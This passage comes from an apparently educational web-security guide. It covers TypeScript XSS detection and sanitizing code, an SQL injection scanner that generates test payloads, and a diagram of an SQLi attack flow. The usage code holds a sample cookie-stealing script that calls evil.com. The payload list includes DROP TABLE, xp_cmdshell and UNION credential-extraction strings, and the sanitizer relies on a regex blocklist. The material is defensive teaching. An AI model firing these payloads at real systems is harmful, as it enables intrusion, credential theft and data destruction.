   * 5. Encode remaining < > & " ' to HTML entities
   */
  public sanitize(input: string): string {
    let safe = input;

    // Step 1: Remove <script> ... </script> blocks (including nested)
    safe = safe.replace(/<script[\s>][\s\S]*?<\/script\s*>/gi, '');

    // Step 2: Remove stand-alone </script> (e.g., from broken injection)
    safe = safe.replace(/<\/script\s*>/gi, '');

    // Step 3: Strip event handler attributes
    safe = safe.replace(/\s+on\w+\s*=\s*(?:"[^"]*"|'[^']*'|[^\s>]+)/gi, '');

    // Step 4: Neutralize javascript:/vbscript:/data: URIs in attributes
    safe = safe.replace(
      /(href|src|action|formaction)\s*=\s*(?:"|')?\s*(?:javascript|vbscript|data)\s*:/gi,
      '$1="about:blank" /* blocked */'
    );

    // Step 5: Encode HTML-special characters for display safety
    const htmlEntities: Record<string, string> = {
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      '"': '&quot;',
      "'": '&#x27;',
    };
    safe = safe.replace(/[&<>"']/g, (ch) => htmlEntities[ch] ?? ch);

    return safe;
  }
}

// ---- Usage example ----
const detector = new XSSDetector();

const maliciousInput = `{
  "name": "<script>fetch('https://evil.com/steal?c='+document.cookie)</script>",
  "bio": "",
  "website": "javascript:alert(1)"
}`;

const findings = detector.detectXSS(maliciousInput);
console.log(`Detected ${findings.length} XSS vector(s):`);
for (const f of findings) {
  console.log(`  [${f.severity.toUpperCase()}] ${f.type}: ${f.payload}`);
}

const sanitized = detector.sanitize(maliciousInput);
console.log(`\nSanitized output:\n${sanitized}`);
```

### SQL Injection Scanner


This TypeScript class implements a multi-strategy SQL Injection scanner. It tests payloads against common injection types: UNION-based extraction, error-based inference, blind boolean, time-based delays, and stacked queries. The scanner also generates tailored test payloads for different database backends.

```typescript
/**
 * SQLiFinding — describes a detected SQL injection vulnerability
 * @property endpoint — the URL or API path where the injection was found
 * @property parameter — the vulnerable input parameter
 * @property payload — the injection string that triggered the finding
 * @property dbType — the suspected database management system
 * @property riskLevel — qualitative risk assessment
 */
interface SQLiFinding {
  endpoint: string;
  parameter: string;
  payload: string;
  dbType: 'mysql' | 'postgresql' | 'mssql' | 'oracle';
  riskLevel: 'low' | 'medium' | 'high' | 'critical';
}

/**
 * SQLiTestResult — captures the outcome of a single probe
 */
interface SQLiTestResult {
  payload: string;
  detected: boolean;
  responseTime: number;
  errorPattern: string | null;
  rowCountDelta: boolean;
}

/**
 * SQLiScanner — scans payload strings for SQL injection indicators
 * and generates differentiated test payloads for each major DBMS.
 *
 * Attack vectors covered:
 * - UNION-based extraction: appends result sets to the original query
 * - Error-based inference: triggers DB errors that leak information
 * - Blind boolean: observes true/false page differences
 * - Time-based: uses SLEEP/WAITFOR DELAY to confirm injection
 * - Boolean-based: uses AND/OR conditional logic
 * - Stacked queries: executes multiple statements (MSSQL/PostgreSQL)
 */
class SQLiScanner {
  /**
   * DB-specific error fingerprints used to identify the backend.
   */
  private static readonly DB_ERROR_PATTERNS: Record<
    SQLiFinding['dbType'],
    RegExp[]
  > = {
    mysql: [
      /you have an error in your sql/i,
      /mysql_fetch/i,
      /sqlstate\[/i,
      /incorrect syntax near/i,
    ],
    postgresql: [
      /psql/i,
      /pg_/i,
      /postgresql/i,
      /invalid input syntax/i,
    ],
    mssql: [
      /microsoft oledb/i,
      /sql server/i,
      /incorrect syntax near/i,
      /unclosed quotation mark/i,
    ],
    oracle: [
      /ora-\d{5}/i,
      /oracle/i,
      /pls-/i,
      /quoted string not properly terminated/i,
    ],
  };

  /**
   * Scan a single payload string for SQL injection indicators.
   * Returns an array of findings (usually 0 or 1 for a single payload),
   * but a complex payload may trigger multiple DB patterns.
   */
  public scanPayload(payload: string): SQLiFinding[] {
    const findings: SQLiFinding[] = [];
    const lower = payload.toLowerCase().trim();

    // Determine which DB type(s) the payload targets
    const dbTypes = this.identifyTargetDB(payload);

    for (const dbType of dbTypes) {
      const riskLevel = this.assessRisk(payload, dbType);
      findings.push({
        endpoint: '(dynamic)',
        parameter: 'input',
        payload: payload.length > 120 ? payload.slice(0, 120) + '…' : payload,
        dbType,
        riskLevel,
      });
    }
    return findings;
  }

  /**
   * Identify the most likely DBMS targeted by the payload.
   * Uses DB-specific syntax markers (comment styles, functions, keywords).
   */
  private identifyTargetDB(payload: string): SQLiFinding['dbType'][] {
    const dbs: SQLiFinding['dbType'][] = [];
    const lower = payload.toLowerCase();

    // MySQL-specific: --, #, /*! */, SLEEP(), BENCHMARK(), @@version
    if (
      lower.includes('sleep(') ||
      lower.includes('benchmark(') ||
      lower.includes('@@version') ||
      lower.includes("' --") ||
      lower.includes("'#")
    ) {
      dbs.push('mysql');
    }

    // PostgreSQL-specific: :: cast, pg_sleep, current_database()
    if (
      lower.includes('pg_sleep') ||
      lower.includes('::text') ||
      lower.includes('current_database')
    ) {
      dbs.push('postgresql');
    }

    // MSSQL-specific: @@version (shared with MySQL), WAITFOR DELAY, char()
    if (
      lower.includes('waitfor delay') ||
      lower.includes('@@version') ||
      lower.includes('char(')
    ) {
      dbs.push('mssql');
    }

    // Oracle-specific: dual table, rownum, utl_inaddr, ctxsys
    if (
      lower.includes('from dual') ||
      lower.includes('rownum') ||
      lower.includes('utl_inaddr')
    ) {
      dbs.push('oracle');
    }

    // If no specific markers, flag as MySQL (most common)
    if (dbs.length === 0) {
      dbs.push('mysql', 'postgresql', 'mssql', 'oracle');
    }

    return [...new Set(dbs)];
  }

  /**
   * Assess risk based on payload intent and target DB.
   * UNION-based and stacked queries are critical;
   * error-based is high; boolean/time-based is medium; simple probes are low.
   */
  private assessRisk(
    payload: string,
    _dbType: SQLiFinding['dbType']
  ): SQLiFinding['riskLevel'] {
    const lower = payload.toLowerCase();
    if (lower.includes('union') && lower.includes('select')) return 'critical';
    if (lower.includes(';') && lower.includes('drop')) return 'critical';
    if (lower.includes('exec') || lower.includes('xp_cmdshell')) return 'critical';
    if (lower.includes('convert(') || lower.includes('cast(')) return 'high';
    if (
      lower.includes('sleep(') ||
      lower.includes('waitfor delay') ||
      lower.includes('pg_sleep')
    ) {
      return 'medium';
    }
    if (lower.includes("' or ") || lower.includes("' and ")) return 'medium';
    return 'low';
  }

  /**
   * Generate an array of test payloads based on a base parameter value.
   * Each payload targets a different SQLi technique and DBMS.
   */
  public generateTestPayloads(baseParam: string): string[] {
    const encoded = encodeURIComponent(baseParam);
    return [
      // --- Boolean-based ---
      `' OR '1'='1`,                        // MySQL/MSSQL true
      `' OR '1'='2`,                        // MySQL/MSSQL false
      `" OR "1"="1`,                        // Double-quote variant
      `' OR 1=1 --`,                        // Comment-terminated true
      `' OR 1=2 --`,                        // Comment-terminated false
      `' AND 1=1 --`,                       // AND true
      `' AND 1=2 --`,                       // AND false

      // --- UNION-based extraction ---
      `' UNION SELECT NULL --`,             // Column count probe (MySQL)
      `' UNION SELECT NULL,NULL --`,
      `' UNION SELECT NULL,NULL,NULL --`,
      `' UNION SELECT @@version,NULL,NULL --`,   // Version extraction (MySQL/MSSQL)
      `' UNION SELECT current_database(),NULL,NULL --`, // DB name (PostgreSQL)

      // --- Error-based ---
      `' AND 1=CONVERT(int, @@version) --`, // MSSQL error-based
      `' AND EXTRACTVALUE(1, CONCAT(0x7e, @@version)) --`, // MySQL error-based
      `' AND UTL_INADDR.get_host_name('127.0.0.1') IS NOT NULL --`, // Oracle error

      // --- Time-based ---
      `' OR SLEEP(5) --`,                  // MySQL time-based
      `' OR pg_sleep(5) --`,               // PostgreSQL time-based
      `'; WAITFOR DELAY '0:0:5' --`,       // MSSQL time-based
      `' OR BENCHMARK(5000000, MD5('test')) --`, // MySQL CPU-based delay

      // --- Stacked queries ---
      `'; DROP TABLE users --`,            // Destructive stacked (MSSQL/PostgreSQL)
      `'; EXEC xp_cmdshell('dir') --`,     // MSSQL command execution

      // --- Out-of-band (DNS) ---
      `'; DECLARE @q VARCHAR(8000) SELECT @q=0x EXEC master.dbo.xp_dirtree @q --`,

      // --- NoSQL injection patterns ---
      `{ "$gt": "" }`,                     // MongoDB $gt operator
      `{ "$ne": "" }`,                     // MongoDB $ne operator
    ];
  }

  /**
   * Simulate a full scan against a set of payloads, returning all findings.
   * In a real scanner, each payload would be sent to the target endpoint
   * and the HTTP response analyzed. Here we perform static analysis only.
   */
  public scanAll(payloads: string[]): SQLiFinding[] {
    const allFindings: SQLiFinding[] = [];
    for (const payload of payloads) {
      const results = this.scanPayload(payload);
      allFindings.push(...results);
    }
    return allFindings;
  }
}

// ---- Usage example ----
const scanner = new SQLiScanner();

// Generate test payloads from a base parameter
const payloads = scanner.generateTestPayloads('1');
console.log(`Generated ${payloads.length} test payloads.\n`);

// Scan a specific malicious payload
const malicious = "' UNION SELECT username, password FROM users --";
const findings = scanner.scanPayload(malicious);
console.log(`Scanning: ${malicious}`);
for (const f of findings) {
  console.log(
    `  → [${f.riskLevel.toUpperCase()}] ${f.dbType}: matched injection pattern`
  );
}
```

## Mermaid Diagrams

### SQL Injection Attack Flow


The following sequence diagram illustrates the two primary paths of SQL injection: **error-based** injection (where database error messages leak schema information) and **UNION-based** injection (where the attacker appends result sets to extract data directly). Both paths exploit unsanitized user input concatenated into SQL queries.

```mermaid
sequenceDiagram
    participant Attacker
    participant WebApp as Web Application
    participant DB as Database Server

    Note over Attacker,DB: SQL Injection Attack Flow

    rect rgb(240, 240, 255)
    Note over Attacker,WebApp: Step 1 — Reconnaissance
    Attacker->>WebApp: GET /product?id=1'
    WebApp->>DB: SELECT * FROM products WHERE id = '1''
    DB-->>WebApp: ERROR: syntax error at or near "''"
    WebApp-->>Attacker: 500 Internal Server Error (verbose)
    end

    rect rgb(240, 255, 240)
    Note over Attacker,WebApp: Step 2 — Error-Based Injection
    Attacker->>WebApp: GET /product?id=1' AND 1=CONVERT(int, @@version)--
    WebApp->>DB: SELECT * FROM products WHERE id = '1' AND 1=CONVERT(int, @@version)--'
    DB-->>WebApp: ERROR: Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2019' to int
    WebApp-->>Attacker: Error message contains SQL Server version
    Note over Attacker: DB type identified → MSSQL 2019
    end

    rect rgb(255, 240, 240)
    Note over Attacker,DB: Step 3 — UNION-Based Extraction
    Attacker->>WebApp: GET /product?id=1 UNION SELECT username, password FROM users--
    WebApp->>DB: SELECT * FROM products WHERE id = '1' UNION SELECT username, password FROM users--'
    DB-->>WebApp: Result set: (admin, hash$123...), (john, hash$456...)
    WebApp-->>Attacker: Rendered page includes credentials
    Note over Attacker: Credentials extracted!
    end
```



### OWASP Top 10 (2021) Threat Categories


This mindmap illustrates the ten OWASP Top 10 risk categories ranked by exploitation frequency and technical impact. Each category is accompanied by example attack vectors that demonstrate the real-world manifestation of the vulnerability.



### Final One-Sentence Takeaway


Web security is a layered discipline: secure code (parameterized queries, output encoding) forms the foundation, security headers (CSP, HSTS, XFO) provide browser-enforced defense, WAF/RASP adds runtime protection, and a mature bug bounty program validates everything continuously.
